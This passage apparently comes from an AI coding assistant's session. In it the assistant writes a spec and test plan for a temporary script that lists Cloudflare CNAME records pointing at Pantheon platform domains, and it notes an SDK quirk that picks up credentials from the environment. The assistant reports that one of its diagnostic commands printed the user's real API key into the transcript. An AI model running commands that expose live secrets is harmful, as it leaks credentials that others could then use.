37:        This automatically infers the following arguments from their corresponding environment variables if they are not provided:
38:        - `api_token` from `CLOUDFLARE_API_TOKEN`
39:        - `api_key` from `CLOUDFLARE_API_KEY`
40:        - `api_email` from `CLOUDFLARE_EMAIL`
41:        - `user_service_key` from `CLOUDFLARE_API_USER_SERVICE_KEY`
43:        if api_token is None:
44:            api_token = os.environ.get("CLOUDFLARE_API_TOKEN")
45:        self.api_token = api_token
47:        if api_key is None:
48:            api_key = os.environ.get("CLOUDFLARE_API_KEY")
49:        self.api_key = api_key
51:        if api_email is None:
52:            api_email = os.environ.get("CLOUDFLARE_EMAIL")
53:        self.api_email = api_email
55:        if user_service_key is None:
56:            user_service_key = os.environ.get("CLOUDFLARE_API_USER_SERVICE_KEY")
57:        self.user_service_key = user_service_key
60:            base_url = os.environ.get("CLOUDFLARE_BASE_URL")
67:        custom_headers_env = os.environ.get("CLOUDFLARE_CUSTOM_HEADERS")
```

## Assistant

I have everything I need. **One thing you should know first:** a diagnostic command I ran printed your real `CLOUDFLARE_API_KEY` (it's in this session's transcript) — the SDK had silently picked it up from the ambient environment. Rotate it if that matters to you, and note that `/archive-session`'s scrubber will need to catch it before this folder is committed.

That accident surfaced a real finding, now baked into the design:

### ⚙ Tool call: `Write`

```json
{
  "file_path": "/workspace/development/2026-07-30-platform-domain-util2/SPEC.md",
  "content": "# `find-platform-domains-cloudflare` — Spec & Implementation Plan\n\n> **For agentic workers:** REQUIRED SUB-SKILL: Use `superpowers:subagent-driven-development`\n> (recommended) or `superpowers:executing-plans` to implement this plan task-by-task. Steps use\n> checkbox (`- [ ]`) syntax for tracking. Dispatch every code-touching subagent as\n> **`psh-implementer`** and every reviewer as **`psh-reviewer`** (CLAUDE.md § Dispatching\n> subagents).\n\n**Goal:** A standalone, deletable utility that writes every Cloudflare DNS **CNAME record whose\ntarget ends in `.pantheonsite.io`** — proxied or not, in every zone of every account the\ncredentials can see — to `./platform-domains-cloudflare.json`, regenerated in full on every run.\n\n**Architecture:** One executable script at the repo root, `find-platform-domains-cloudflare`,\nimporting nothing from `psh/`, `check/`, `plugin/`, or `script_context`. It re-implements (by\ncopying, not importing) the three things it needs from the main program: the `[Cloudflare]`\ncredential read, the account → zone → DNS-record walk from `plugin/cloudflare/fqdns.py`, and that\nmodule's atomic JSON write. Deletion after Pantheon's CDN migration is `git rm` of the script, its\n`.py` symlink and its test file, plus five one-line tooling entries (§8).\n\n**Tech Stack:** Python 3.12+, the `cloudflare` SDK (already declared under this project's\n`cloudflare` extra), `tomllib`, `argparse`. No new dependencies. Tests: pytest, `unit` tier,\nfully offline.\n\n## Global Constraints\n\n- **Standalone.** The script imports nothing from `psh/`, `check/`, `plugin/`, or\n  `script_context`. Copied code lives *in* the script, not in a shared module — deletion must stay\n  a `git rm`.\n- **Temporary.** Delete after Pantheon completes the Fastly → Pantheon-Cloudflare CDN migration.\n  Every file the script touches carries a comment saying so and pointing at §8.\n- **Output path:** `./platform-domains-cloudflare.json`, a module-level constant. No `--output`\n  flag.\n- **Platform suffix:** `.pantheonsite.io` (with the leading dot), a module-level constant.\n- **Always regenerate.** No existence check, no staleness check, no load-existing path. Every run\n  writes the file, including a run that matched nothing (which writes `{}`).\n- **Efficiency is explicitly not a goal** (prompt). Prefer the simplest correct code at every fork.\n- **Lint/type gates apply.** `./run-tests` runs ruff (`select = ALL` minus the ignore list) and\n  pyright standard mode; both must pass. The script is added to pyright's `include` (§8).\n- **House style:** 4-space indent, `\"\"\"docstrings\"\"\"` explaining *why*, `# --` comment banners,\n  `allow_abbrev=False` on the parser.\n\n---\n\n## 1. What this is and why\n\nPart of the Pantheon CDN migration. Custom domains that still reach Pantheon's legacy CDN must be\nrewritten to Pantheon's new records. The sibling utility `find-platform-domains-dns` finds them\nfrom **public DNS**. That is blind to a **Cloudflare-proxied** record, whose CNAME target is\ninvisible outside Cloudflare — and `fqdns.json`, the main program's Cloudflare data source, is\nbuilt with `proxied=True` and so is blind to every **DNS-only** record.\n\nThis script closes the second gap: it inspects **all** records in **all** zones and reports the\nCNAMEs pointing at a Pantheon platform domain, whatever their proxy status.\n\nIts output is the input to the record-rewrite work described in `research.md` in this folder.\n\n## 2. Normative behavior\n\n### R1 — CLI\n\n```\nfind-platform-domains-cloudflare [-c CONFIG] [-v]\n```\n\n| Flag | Default | Meaning |\n|---|---|---|\n| `-c`, `--config` | `pantheon-sitehealth-emails.toml` | TOML file to read `[Cloudflare]` credentials from |\n| `-v`, `--verbose` | off | print each zone to stderr as it is scanned |\n\n`allow_abbrev=False` (house rule). There are no positional arguments.\n\n### R2 — Credentials\n\nRead the `[Cloudflare]` table from the TOML with `tomllib`, then resolve `<{...}` substitution\nmarkers in the string values with a **copied mini-resolver** supporting exactly the `env` and\n`secret env` forms, with an optional trailing default:\n\n```\n<{env NAME}          <{env NAME DEFAULT}\n<{secret env NAME}   <{secret env NAME DEFAULT}\n```\n\n- Marker syntax is `<{` … `}` — the trailing `>` seen in the sample config is decorative and is\n  **not** part of the marker. The recognizing regex is copied verbatim from\n  `psh/configuration.py`: `re.compile(r\"<\\{(.*?)(?<!\\\\)}\")`.\n- Markers are substituted **inside** a value (`re.sub`), so `\"prefix<{env X}suffix\"` works,\n  matching `process_config()`.\n- A **non-`env`** substitution (e.g. `<{secret aws …}`) is a `StartupError` naming the config key\n  and saying what this script accepts. It is not silently passed through: a literal\n  `\"<{secret aws cloudflare/token}\"` sent as an API token would produce a confusing 401.\n- An unset env var with no default is a `StartupError` naming the variable.\n- A non-string value (int, bool) passes through untouched; only `str` values are scanned.\n\n**Deliberate divergence from the main engine, documented in the script:** the marker body is\ntokenized with `shlex.split()` (whitespace-splitting) rather than the engine's\n`list(shlex.shlex(expr, posix=True))` (which also splits on punctuation, turning\n`<{env FOO some-default}` into four tokens and making the main program reject it as an unknown\nsubstitution). The two agree on every marker the main program can actually resolve; this one is\nmarginally more permissive on defaults containing punctuation.\n\n`api_token` wins when present and truthy; otherwise both `email` and `api_key` are required.\nEither missing → `StartupError`. `enabled` is **not consulted** — the operator ran this script\ndeliberately, and refusing to run because a flag aimed at the main program is `false` would be a\nsurprise. The script says so in a comment.\n\n### R2a — Credential isolation (load-bearing; found by measurement)\n\nThe `cloudflare` SDK fills any credential argument left as `None` from the environment\n(`CLOUDFLARE_API_TOKEN`, `CLOUDFLARE_API_KEY`, `CLOUDFLARE_EMAIL`,\n`CLOUDFLARE_API_USER_SERVICE_KEY`) and its `auth_headers` property picks the first of\n**email → key → token → user_service_key** that is set — returning that one header alone.\n\nMeasured on this repo's installed SDK (cloudflare 5.4.0):\n\n```python\n>>> Cloudflare(api_token=\"tok-123\").api_email\n'…@umich.edu'          # from the ambient $CLOUDFLARE_EMAIL, never asked for\n```\n\nSo on a host where `CLOUDFLARE_EMAIL` is exported, a client built with an explicit\n`api_token=` authenticates with `X-Auth-Email` **and nothing else** — the token is never sent, and\nneither is the key. The script must therefore **pin all four credential fields** after\nconstruction, nulling every one the config did not supply:\n\n```python\ndef build_client(**creds):\n    \"\"\"Build a Cloudflare client that uses EXACTLY the credentials the config supplied.\n\n    The SDK back-fills every credential argument left None from the environment, and its\n    auth_headers property prefers X-Auth-Email over the bearer token -- so an api_token= client\n    on a host exporting CLOUDFLARE_EMAIL authenticates as that email and never sends the token.\n    Nulling the fields the config did not supply is what makes the config the sole authority.\n    \"\"\"\n    client = Cloudflare(**creds)\n    for field in (\"api_token\", \"api_key\", \"api_email\", \"user_service_key\"):\n        if field not in creds:\n            setattr(client, field, None)\n    return client\n```\n\n> **Out of scope, report to the operator:** `plugin/cloudflare/client.py`'s `build_client()` has\n> this same latent defect — `Cloudflare(api_token=api_token)` with no field pinning. It is not\n> live today only because U-M's config leaves `api_token` commented out and passes `api_email` +\n> `api_key` explicitly. Uncommenting `api_token` on a host with `CLOUDFLARE_EMAIL` exported would\n> silently authenticate as the wrong principal. Fixing it is a separate change to the main\n> program, not this script's job.\n\n### R3 — The walk\n\n`client.accounts.list()` → per account `client.zones.list(account={\"id\": account.id})` → per zone\n`client.dns.records.list(zone_id=zone.id)`.\n\n- **No `proxied=` filter and no `type=` filter.** Every record in every zone is fetched and\n  inspected; the CNAME and suffix tests happen in this script. This is literally what \"consider\n  all DNS records in all Cloudflare zones\" asks for, and per the prompt no work goes into making\n  it faster. (If a run ever becomes painful, `type=\"CNAME\"` on the `list` call is the one-word\n  change — recorded here so a later reader does not have to rediscover it.)\n- Records are consumed through a **generator**, so the whole org's record set is never held in\n  memory at once — this is not an optimization, it is the shape that keeps the fold pure and the\n  API error handling in one place.\n- Any `cloudflare.CloudflareError` → `StartupError` (exit 2).\n- **Zero zones is fatal** (copied from `fqdns.py`): with `DNS:Read` missing, \"no zones\" and \"no\n  matching records\" produce an identical empty output file, and a silently-empty file is exactly\n  the failure mode this script must not have.\n- Zero matching CNAMEs is **not** fatal — it writes `{}` and says so on stderr.\n\n### R4 — The match\n\nA record is kept when **both** hold:\n\n1. `record.type == \"CNAME\"`, and\n2. `normalize(record.content).endswith(\".pantheonsite.io\")`\n\nwhere `normalize` is copied verbatim from `find-platform-domains-dns`: lowercase, strip\nwhitespace, strip the trailing root dot. Proxy status is **irrelevant to the match** — that is the\nentire point of this script versus `fqdns.json`.\n\nConsequences worth pinning in tests: `notpantheonsite.io` does not match (the constant carries the\nleading dot); the bare apex `pantheonsite.io` does not match; an **A** record whose content\nsomehow reads as a platform domain does not match; a **DNS-only** CNAME **does** match.\n\n### R5 — Output format\n\n`./platform-domains-cloudflare.json`, JSON object keyed by FQDN, `indent=4`, `sort_keys=True`,\ntrailing newline — the same serialization `write_fqdns_atomic` uses.\n\n```json\n{\n    \"example1.cdn-dev.it.umich.edu\": {\n        \"origins\": [\n            \"live-umich-example1.pantheonsite.io\"\n        ],\n        \"proxied\": true,\n        \"record_id\": \"9f0e1b2c3d4e5f60718293a4b5c6d7e8\",\n        \"zone_id\": \"abc123def456\"\n    }\n}\n```\n\n- `zone_id` + `origins` are `fqdns.json`'s fields, unchanged in name and type.\n- `record_id` (str) and `proxied` (bool) are **added** — `research.md` in this folder shows the\n  downstream batch rewrite needs the record id for `deletes` and treats `proxied` as the\n  load-bearing field on re-creation. Without them the rewriter must re-list every zone.\n- **First-record-wins** for `zone_id`, `record_id` and `proxied`, mirroring how `fqdns.json`\n  already keeps only the first `zone_id`. `origins` accumulates, so a name matching in two zones\n  is visible in the file as well as in the warning.\n- Keys are `normalize()`d; `origins` entries are the **raw** `record.content` as Cloudflare\n  returned it (`fqdns.py` stores raw content, and the raw string is what a rewriter would compare\n  against).\n\n### R6 — Exit codes and streams\n\n| Code | Meaning |\n|---|---|\n| 0 | the output file was written (including an empty `{}`) |\n| 2 | could not complete: config unreadable / not TOML, no `[Cloudflare]` section, unresolvable or unsupported substitution, missing credentials, any `cloudflare.CloudflareError`, zero zones |\n| 130 | interrupted (`KeyboardInterrupt`) |\n\nThere is deliberately **no exit 1**. The sibling `find-platform-domains-dns` reserves 1 for\n\"completed with indeterminates\" because a DNS lookup can be indeterminate; a Cloudflare list call\neither returns or raises, so this script has no partial-answer state.\n\n**stdout is unused.** All operator output — warnings, the `-v` per-zone lines, the summary, and\nerror messages — goes to stderr; the *result* is the file. Consequently the doomed-stream detach\nguards and the exit-120 taxonomy that `find-platform-domains-dns` carries are **not** copied\n(§5.4).\n\nThe summary line, on stderr, on success:\n\n```\nWrote 12 platform-domain CNAMEs from 43 zones in 2 account(s) to platform-domains-cloudflare.json.\n```\n\n### R7 — Cross-zone conflict warning\n\nWhen a name already in the map is matched again from a **different** zone, print to stderr:\n\n```\nATTENTION: <name> has a platform-domain CNAME in more than one Cloudflare zone (<first> and <second>); keeping the first zone_id/record_id\n```\n\nWarnings are collected during the fold and printed **before** the file is written, so an operator\nwatching stderr sees them even if the write then fails.\n\n### R8 — Atomic write\n\n`write_fqdns_atomic` from `plugin/cloudflare/fqdns.py`, copied and renamed `write_json_atomic`:\n`tempfile.mkstemp(dir=…)` in the target's directory → write → restore a umask-based mode (mkstemp\ncreates 0600) → `os.replace()` → on any `BaseException`, unlink the temp file and re-raise. The\n`# noqa: PTH…` comments come with it (ruff's `select = ALL` includes the pathlib rules, and this\nfunction's `os.replace` on the same filesystem is the behavior being specified, not an\n`os`-vs-`pathlib` style choice).\n\nAn interrupted run therefore leaves the previous file byte-intact; it never leaves a truncated one.\n\n## 3. Module layout of the script\n\nSingle file, in this order:\n\n| Symbol | Kind | Responsibility |\n|---|---|---|\n| module docstring | — | what it is, that it is TEMPORARY, the §8 pointer, requirements |\n| `PLATFORM_SUFFIX`, `OUTPUT_FILE`, `DEFAULT_CONFIG`, `MARKER_RE` | constants | R4, R5, R1, R2 |\n| `StartupError` | exception | anything that ends the run at exit 2 |\n| `normalize`, `is_platform_domain` | pure | R4 — copied from `find-platform-domains-dns` |\n| `resolve_env_marker`, `resolve_config_value` | pure (reads `os.environ`) | R2 |\n| `build_client`, `cloudflare_client` | I/O | R2, R2a |\n| `collect_entries` | pure | R4, R5, R7 — the fold |\n| `fetch_platform_cnames` | I/O | R3 |\n| `write_json_atomic` | I/O | R8 — copied from `fqdns.py` |\n| `build_arg_parser`, `main` | CLI | R1, R6 |\n| `if __name__ == \"__main__\":` | — | `sys.exit(main(sys.argv[1:]))` |\n\n## 4. Test plan\n\nOne file, `tests/unit/test_find_platform_domains_cloudflare.py`, `pytestmark = pytest.mark.unit`,\nfully offline. The script is extension-less, so it is loaded with the `SourceFileLoader` idiom\nalready used by `tests/unit/test_find_platform_domains_dns.py`, **fresh per test** via a fixture.\n\nCovered: the marker resolver (all four forms, missing var, non-`env` substitution, literal\npassthrough, non-string passthrough), credential selection **including the R2a env-isolation\npin**, the match rule (all five cases in R4), the fold (first-record-wins, `origins`\naccumulation, cross-zone warning), and the atomic write (creates, overwrites, leaves no temp\nfile behind).\n\nNot covered, by decision (§5.5): `main()` end-to-end and `fetch_platform_cnames`'s account/zone\npagination against a real client.\n\nFake records are `types.SimpleNamespace(type=…, name=…, content=…, id=…, proxied=…)` — a plain\nnamespace is enough because the fold only reads attributes.\n\n---\n\n## Task 1: Scaffold, tooling, and the match rule\n\n**Files:**\n- Create: `find-platform-domains-cloudflare` (executable, `chmod +x`)\n- Create: `find-platform-domains-cloudflare.py` → symlink to the above\n- Create: `tests/unit/test_find_platform_domains_cloudflare.py`\n- Modify: `pyproject.toml` (two `[tool.ruff.lint.per-file-ignores]` entries, one\n  `[tool.pyright].include` entry)\n- Modify: `.claude/hooks/ruff-check.sh` (one `case` arm)\n\n**Interfaces:**\n- Consumes: nothing.\n- Produces: `PLATFORM_SUFFIX = \".pantheonsite.io\"`, `OUTPUT_FILE`, `DEFAULT_CONFIG`,\n  `StartupError`, `normalize(name) -> str`, `is_platform_domain(name) -> bool`.\n\n- [ ] **Step 1: Write the failing test**\n\nCreate `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\n\"\"\"Offline tests for the find-platform-domains-cloudflare utility (SPEC section 4).\n\nThe script has no .py extension, so it is loaded with the SourceFileLoader idiom the suite\nalready uses for standalone scripts and check/plugin modules (see\ntests/unit/test_find_platform_domains_dns.py).  It is loaded FRESH PER TEST so no module-level\nstate leaks between tests.\n\nTEMPORARY, deleted with the script after the Pantheon CDN migration -- see\ndevelopment/2026-07-30-platform-domain-util2/SPEC.md section 8.\n\"\"\"\nimport importlib.util\nimport json\nimport types\nfrom importlib.machinery import SourceFileLoader\nfrom pathlib import Path\n\nimport pytest\n\npytestmark = pytest.mark.unit\n\n# EVERY import for EVERY task in this file belongs in the block above.  Later tasks append\n# tests, not imports: ruff's E402 is not in the tests/** ignore list, so an import half way\n# down the file fails the gate.\n\nSCRIPT = Path(__file__).resolve().parent.parent.parent / \"find-platform-domains-cloudflare\"\n\n\n@pytest.fixture\ndef fpc():\n    \"\"\"The utility, loaded fresh.  Its entry point is __main__-guarded, so import runs nothing.\"\"\"\n    loader = SourceFileLoader(\"find_platform_domains_cloudflare_probe\", str(SCRIPT))\n    spec = importlib.util.spec_from_loader(loader.name, loader)\n    assert spec is not None\n    module = importlib.util.module_from_spec(spec)\n    loader.exec_module(module)\n    return module\n\n\ndef record(**overrides):\n    \"\"\"A stand-in for a cloudflare RecordResponse; the code under test only reads attributes.\"\"\"\n    fields = {\"type\": \"CNAME\", \"name\": \"www.example.edu\", \"id\": \"rec-1\",\n              \"content\": \"live-umich-example1.pantheonsite.io\", \"proxied\": True}\n    fields.update(overrides)\n    return types.SimpleNamespace(**fields)\n\n\ndef test_normalize_strips_case_whitespace_and_the_root_dot(fpc):\n    assert fpc.normalize(\"  LIVE-Umich-X.PantheonSite.IO.  \") == \"live-umich-x.pantheonsite.io\"\n\n\n@pytest.mark.parametrize(\"name\", [\n    \"live-umich-example1.pantheonsite.io\",\n    \"LIVE-UMICH-EXAMPLE1.PANTHEONSITE.IO\",\n    \"live-umich-example1.pantheonsite.io.\",\n])\ndef test_is_platform_domain_accepts_platform_hostnames(fpc, name):\n    assert fpc.is_platform_domain(name) is True\n\n\n@pytest.mark.parametrize(\"name\", [\n    \"notpantheonsite.io\",          # the leading dot in PLATFORM_SUFFIX is what rejects this\n    \"pantheonsite.io\",             # the bare apex is not a site's platform domain\n    \"www.example.edu\",\n    \"live-umich-example1.pantheonsite.io.evil.example\",\n])\ndef test_is_platform_domain_rejects_everything_else(fpc, name):\n    assert fpc.is_platform_domain(name) is False\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: collection ERROR — `FileNotFoundError` for the script path (it does not exist yet).\n\n- [ ] **Step 3: Create the script with its docstring, constants and the match rule**\n\nCreate `find-platform-domains-cloudflare`:\n\n```python\n#!/usr/bin/env python\n\"\"\"Write every Cloudflare CNAME record pointing at a Pantheon platform domain to JSON.\n\nTEMPORARY.  Delete after Pantheon's Fastly -> Pantheon-Cloudflare CDN migration completes; see\ndevelopment/2026-07-30-platform-domain-util2/SPEC.md section 8 for the checklist.\n\nStandalone by design: this imports nothing from psh/, check/, plugin/ or script_context, so most\nof removing it is `git rm` of the script, its .py symlink and its test file.  The credential\nread, the account/zone/record walk and the atomic write are COPIES of plugin/cloudflare/fqdns.py\nand plugin/cloudflare/client.py; normalize()/is_platform_domain() are copies of\nfind-platform-domains-dns.\n\nUnlike fqdns.json, this considers ALL records in ALL zones -- not just proxied ones -- and keeps\nonly CNAMEs whose target ends in .pantheonsite.io.  The output file is regenerated in full on\nevery run, whatever its age.\n\nOutput: ./platform-domains-cloudflare.json, keyed by FQDN, values\n{zone_id, origins, record_id, proxied}.  Everything else -- warnings, progress, the summary,\nerrors -- goes to stderr; stdout is unused.  Exit 0 = file written, 2 = could not complete,\n130 = interrupted.\n\nRequires: the `cloudflare` SDK (declared under this project's `cloudflare` extra, which the\ndocumented `uv pip install .[mysql,aws,cloudflare]` setup line installs) and Cloudflare\ncredentials in the [Cloudflare] section of the config file.\n\"\"\"\nimport argparse\nimport json\nimport os\nimport re\nimport shlex\nimport sys\nimport tempfile\nimport tomllib\nfrom pathlib import Path\n\nimport cloudflare  # for cloudflare.CloudflareError\nfrom cloudflare import Cloudflare\n\nPLATFORM_SUFFIX = \".pantheonsite.io\"   # the leading dot is load-bearing: it rejects\n                                       # \"notpantheonsite.io\"\nOUTPUT_FILE = \"platform-domains-cloudflare.json\"\nDEFAULT_CONFIG = \"pantheon-sitehealth-emails.toml\"\n\n# Copied verbatim from psh/configuration.py.  A marker is \"<{ ... }\" -- the trailing \">\" that\n# appears in the sample config is decorative and NOT part of the syntax.\nMARKER_RE = re.compile(r\"<\\{(.*?)(?<!\\\\)}\")\n\n\nclass StartupError(Exception):\n    \"\"\"Anything that stops the sweep from starting or completing (exit 2).\"\"\"\n\n\ndef normalize(name):\n    \"\"\"Lowercase, strip whitespace and the trailing root dot.  Copied from\n    find-platform-domains-dns.\"\"\"\n    return str(name).strip().rstrip(\".\").lower()\n\n\ndef is_platform_domain(name):\n    \"\"\"True for a Pantheon-provided *.pantheonsite.io hostname.\"\"\"\n    return normalize(name).endswith(PLATFORM_SUFFIX)\n```\n\n- [ ] **Step 4: Make it executable and create the symlink**\n\n```bash\ncd /workspace\nchmod +x find-platform-domains-cloudflare\nln -s find-platform-domains-cloudflare find-platform-domains-cloudflare.py\n```\n\n- [ ] **Step 5: Add the tooling entries**\n\nIn `pyproject.toml`, in `[tool.ruff.lint.per-file-ignores]`, immediately after the two existing\n`find-platform-domains-dns` entries:\n\n```toml\n\"find-platform-domains-cloudflare.py\" = [\"T201\"]  # a CLI tool: print IS its operator output\n    # (stderr = warnings, progress, summary; the result is the JSON file).  Temporary, deleted\n    # with the script after the Pantheon CDN migration -- see\n    # development/2026-07-30-platform-domain-util2/SPEC.md section 8.\n\"find-platform-domains-cloudflare\" = [\"T201\"]  # the extension-less real file the .py entry\n    # above symlinks to -- .claude/hooks/ruff-check.sh hands ruff THIS path (an edit lands on the\n    # real file, not the symlink), and per-file-ignores is keyed on the path ruff is given, so\n    # the .py entry alone leaves the hook's own invocation reporting T201.  Same justification\n    # and deletion condition as the .py entry above.\n```\n\nIn `pyproject.toml`, `[tool.pyright]`, extend `include`:\n\n```toml\ninclude = [\"psh\", \"find-platform-domains-dns.py\", \"find-platform-domains-cloudflare.py\"]\n```\n\nIn `.claude/hooks/ruff-check.sh`, add one arm to the extension-less `case` (after the\n`find-platform-domains-dns` arm):\n\n```sh\n    \"$REPO_ROOT/find-platform-domains-cloudflare\") ;;\n```\n\nand extend that block's comment to name both temporary utilities.\n\n- [ ] **Step 6: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: 8 passed.\n\n- [ ] **Step 7: Verify the lint gate sees the new file**\n\nRun: `uvx ruff@0.15.22 check find-platform-domains-cloudflare`\nExpected: `All checks passed!`\n\n- [ ] **Step 8: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare find-platform-domains-cloudflare.py \\\n        tests/unit/test_find_platform_domains_cloudflare.py pyproject.toml \\\n        .claude/hooks/ruff-check.sh\ngit commit -m \"feat(find-platform-domains-cloudflare): scaffold the utility and its match rule\"\n```\n\n---\n\n## Task 2: Credential resolution\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `is_platform_domain`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: `MARKER_RE`, `StartupError`, `DEFAULT_CONFIG` (Task 1).\n- Produces:\n  - `resolve_env_marker(expr: str, where: str) -> str`\n  - `resolve_config_value(value, where: str)` — returns `value` unchanged when not a `str`\n  - `build_client(**creds) -> Cloudflare`\n  - `cloudflare_client(config_path: str) -> Cloudflare`\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\ndef write_config(tmp_path, body):\n    \"\"\"A config file containing just a [Cloudflare] table.\"\"\"\n    path = tmp_path / \"config.toml\"\n    path.write_text(f\"[Cloudflare]\\n{body}\\n\")\n    return str(path)\n\n\ndef test_resolve_config_value_passes_literals_and_non_strings_through(fpc):\n    assert fpc.resolve_config_value(\"plain-literal\", \"where\") == \"plain-literal\"\n    assert fpc.resolve_config_value(True, \"where\") is True\n    assert fpc.resolve_config_value(None, \"where\") is None\n\n\n@pytest.mark.parametrize(\"marker\", [\"<{env CF_TEST_VAR}\", \"<{secret env CF_TEST_VAR}\"])\ndef test_resolve_config_value_reads_the_environment(fpc, monkeypatch, marker):\n    monkeypatch.setenv(\"CF_TEST_VAR\", \"from-the-environment\")\n    assert fpc.resolve_config_value(marker, \"where\") == \"from-the-environment\"\n\n\ndef test_resolve_config_value_substitutes_inside_a_larger_string(fpc, monkeypatch):\n    monkeypatch.setenv(\"CF_TEST_VAR\", \"middle\")\n    assert fpc.resolve_config_value(\"a<{env CF_TEST_VAR}z\", \"where\") == \"amiddlez\"\n\n\ndef test_resolve_config_value_uses_the_default_when_the_variable_is_unset(fpc, monkeypatch):\n    monkeypatch.delenv(\"CF_TEST_VAR\", raising=False)\n    assert fpc.resolve_config_value(\"<{secret env CF_TEST_VAR fallback}\", \"where\") == \"fallback\"\n\n\ndef test_resolve_config_value_reports_an_unset_variable_with_no_default(fpc, monkeypatch):\n    monkeypatch.delenv(\"CF_TEST_VAR\", raising=False)\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{env CF_TEST_VAR}\", \"config.toml [Cloudflare].api_key\")\n    assert \"CF_TEST_VAR\" in str(caught.value)\n    assert \"config.toml [Cloudflare].api_key\" in str(caught.value)\n\n\ndef test_resolve_config_value_rejects_a_substitution_it_cannot_resolve(fpc):\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{secret aws cloudflare/token}\", \"where\")\n    assert \"secret aws cloudflare/token\" in str(caught.value)\n\n\ndef test_cloudflare_client_prefers_the_api_token(fpc, tmp_path, monkeypatch):\n    monkeypatch.setenv(\"CF_TEST_TOKEN\", \"tok-123\")\n    path = write_config(tmp_path, 'api_token = \"<{secret env CF_TEST_TOKEN}\"\\n'\n                                  'email = \"someone@example.edu\"\\napi_key = \"k-456\"')\n    client = fpc.cloudflare_client(path)\n    assert client.api_token == \"tok-123\"\n\n\ndef test_cloudflare_client_ignores_ambient_credentials_the_config_did_not_supply(\n        fpc, tmp_path, monkeypatch):\n    \"\"\"SPEC R2a.  The SDK back-fills unset credentials from the environment and its auth_headers\n    prefers X-Auth-Email over the bearer token, so an unpinned token client on a host exporting\n    CLOUDFLARE_EMAIL would authenticate as that email and never send the token.\"\"\"\n    monkeypatch.setenv(\"CLOUDFLARE_EMAIL\", \"ambient@example.edu\")\n    monkeypatch.setenv(\"CLOUDFLARE_API_KEY\", \"ambient-key\")\n    path = write_config(tmp_path, 'api_token = \"tok-123\"')\n    client = fpc.cloudflare_client(path)\n    assert client.api_token == \"tok-123\"\n    assert client.api_email is None\n    assert client.api_key is None\n    assert client.user_service_key is None\n\n\ndef test_cloudflare_client_falls_back_to_email_and_key(fpc, tmp_path, monkeypatch):\n    monkeypatch.setenv(\"CLOUDFLARE_API_TOKEN\", \"ambient-token\")\n    path = write_config(tmp_path, 'email = \"someone@example.edu\"\\napi_key = \"k-456\"')\n    client = fpc.cloudflare_client(path)\n    assert client.api_email == \"someone@example.edu\"\n    assert client.api_key == \"k-456\"\n    assert client.api_token is None\n\n\ndef test_cloudflare_client_requires_both_email_and_key(fpc, tmp_path):\n    path = write_config(tmp_path, 'email = \"someone@example.edu\"')\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(path)\n    assert \"api_token\" in str(caught.value)\n\n\ndef test_cloudflare_client_without_a_cloudflare_section_is_a_startup_error(fpc, tmp_path):\n    path = tmp_path / \"config.toml\"\n    path.write_text(\"[Pantheon]\\norg_id = \\\"abc\\\"\\n\")\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(str(path))\n    assert \"[Cloudflare]\" in str(caught.value)\n\n\ndef test_cloudflare_client_with_a_missing_file_is_a_startup_error(fpc, tmp_path):\n    with pytest.raises(fpc.StartupError):\n        fpc.cloudflare_client(str(tmp_path / \"nope.toml\"))\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: FAIL — `AttributeError: module … has no attribute 'resolve_config_value'`.\n\n- [ ] **Step 3: Implement**\n\nAppend to `find-platform-domains-cloudflare`, after `is_platform_domain`:\n\n```python\ndef resolve_env_marker(expr, where):\n    \"\"\"Resolve the body of ONE `<{ ... }` marker.  Only the env forms this script needs.\n\n    Accepts `env NAME [DEFAULT]` and `secret env NAME [DEFAULT]` -- the two forms\n    plugin/env/__init__.py registers.  Anything else (`secret aws ...`, `umich ...`) raises,\n    rather than passing the literal marker through: a literal \"<{secret aws ...}\" handed to the\n    API as a token would surface as a baffling 401 instead of a config error.\n\n    Tokenizing deliberately uses shlex.split() rather than the config engine's\n    list(shlex.shlex(expr, posix=True)), which ALSO splits on punctuation and so turns\n    \"env FOO some-default\" into four tokens the engine then rejects as an unknown substitution.\n    The two agree on every marker the main program can actually resolve; this one is marginally\n    more permissive about defaults containing punctuation.\n    \"\"\"\n    argv = shlex.split(expr)\n    if argv[:1] == [\"secret\"]:\n        argv = argv[1:]\n    if argv[:1] != [\"env\"] or not 2 <= len(argv) <= 3:  # noqa: PLR2004 -- NAME, or NAME + DEFAULT\n        raise StartupError(\n            f\"{where}: this script resolves only <{{env NAME}} and <{{secret env NAME}} \"\n            f\"substitutions (each with an optional default), not <{{{expr}}}.  Put a literal or \"\n            \"an environment-backed value there.\")\n    name = argv[1]\n    if name in os.environ:\n        return os.environ[name]\n    if len(argv) == 3:  # noqa: PLR2004 -- the DEFAULT is present\n        return argv[2]\n    raise StartupError(f\"{where}: environment variable '{name}' is not set\")\n\n\ndef resolve_config_value(value, where):\n    \"\"\"Resolve every `<{ ... }` marker inside one config value.  Non-strings pass through.\"\"\"\n    if not isinstance(value, str):\n        return value\n    return MARKER_RE.sub(lambda match: resolve_env_marker(match.group(1), where), value)\n\n\ndef build_client(**creds):\n    \"\"\"Build a Cloudflare client that uses EXACTLY the credentials the config supplied.\n\n    Measured on cloudflare 5.4.0: the SDK back-fills every credential argument left None from the\n    environment (CLOUDFLARE_API_TOKEN / _API_KEY / _EMAIL / _API_USER_SERVICE_KEY), and its\n    auth_headers property returns the FIRST of email -> key -> token -> user_service_key that is\n    set, and only that one.  So Cloudflare(api_token=...) on a host exporting CLOUDFLARE_EMAIL\n    authenticates with X-Auth-Email and never sends the token.  Nulling the fields the config did\n    not supply is what makes the config file the 